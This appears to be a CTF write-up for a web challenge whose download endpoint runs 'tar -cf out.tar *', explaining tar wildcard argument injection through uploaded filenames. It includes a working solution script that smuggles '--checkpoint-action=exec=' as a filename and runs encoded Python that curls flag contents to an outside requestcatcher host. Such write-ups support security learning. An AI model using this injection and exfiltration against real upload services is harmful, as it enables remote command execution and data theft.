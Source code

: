 https://ctftime.org/event/2252/

# Argument - (Web)

I just wanted to make a simple application where people can store files. But I'm a good college student and have taken web security classes, so I'm aware of all the vulnerabilities that may exist and made my app perfectly secure! There's no way you'd be able to get the flag...

## Solution
At first look I thought this challenge have to do with symlinks or bypassing the filters.
But it actually is about a very obscure interaction, I only found out when my teammate showed it.

First the challenge features:
- you can upload any file with size < 1000
- you can upload any file that doesnt have `..` or `/` on the name
- you can download all the files that you uploaded as a tar file

The vulnerability is on the download endpoint:
```python
os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")
```

The vulnerability here is the use of the glob operator ```*```, 
Basically the way it works is, it expands whatever is on the current dir to the command line
So if we can upload a file called ```-v``` we would toggle the verbose flag on tar
And together with some more obscure tar features we can execute code.
In the context of the tar command, a checkpoint is a point during the execution of the command where certain actions are performed.

The --checkpoint option in tar allows you to specify how often these checkpoints occur. 
For example, --checkpoint=1 would create a checkpoint after every record is processed.

The --checkpoint-action option allows you to specify an action to be executed when a checkpoint is reached. 
This action can be any shell command. In the exploit code, the action is set to exec=<payload>, which executes the payload script when a checkpoint is reached.

https://www.exploit-db.com/papers/33930

The full solution script:
```python
import requests, uuid, base64

# REMOTE = 'http://localhost:40000'
REMOTE = 'https://argument.chal.cyberjousting.com'
ID = str(uuid.uuid4())

p = '''import subprocess;subprocess.run("curl https://1.requestcatcher.com/12?a=$(cat /flag* |base64)", shell=True)'''
pay = base64.b64encode(p.encode())
exp = f"""python -c \"import base64; exec(base64.b64decode(\\\\"{pay.decode()}\\\\"))\""""

if '/' in exp:
    print(f"DEBUGPRINT[12]: lab.py:11: exp={exp}")
    exit(1)

def upload():
    file = open('somefile', 'rb')

    res = requests.post(REMOTE + '/api/upload',
                        cookies={'uuid': ID},
                        files = {
                          'file':('out.tar', file, 'plain/text')
                        })

    res = requests.post(REMOTE + '/api/upload',
                        cookies={'uuid': ID},
                        files = {
                          'file':('--checkpoint=1', file, 'plain/text')
                        })

    res = requests.post(REMOTE + '/api/upload',
                        cookies={'uuid': ID},
                        files = {
                          'file':(f'--checkpoint-action=exec=' + exp, file, 'plain/text')
                        })

def listr():
    res = requests.get(REMOTE + '/', cookies={'uuid': ID})


def download(): 
    res = requests.get(REMOTE + '/api/download', cookies={'uuid': ID})

upload()
time.sleep(1)
download()
```

## Flag
`byuctf{argument_injection_stumped_me_the_most_at_D3FC0N_last_year}`

